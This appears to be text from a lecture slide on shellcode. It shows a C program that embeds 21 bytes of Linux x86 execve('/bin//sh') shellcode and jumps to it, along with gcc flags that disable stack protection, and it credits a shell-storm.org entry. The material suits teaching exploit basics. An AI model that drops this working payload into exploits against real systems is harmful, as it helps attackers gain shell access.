

# Program Example
#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f"
              "\x73\x68\x68\x2f\x62\x69\x6e\x89"
              "\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv)
{
 printf ("Shellcode length : %d bytes\n", strlen (code));
 int(*f)()=(int(*)())code;
 f();
}

$ gcc -o shellcode -fno-stack-protector
    -z execstack shellcode.c
Author: kernel_panik, http://www.shell-storm.org/shellcode/files/shellcode-752.php
33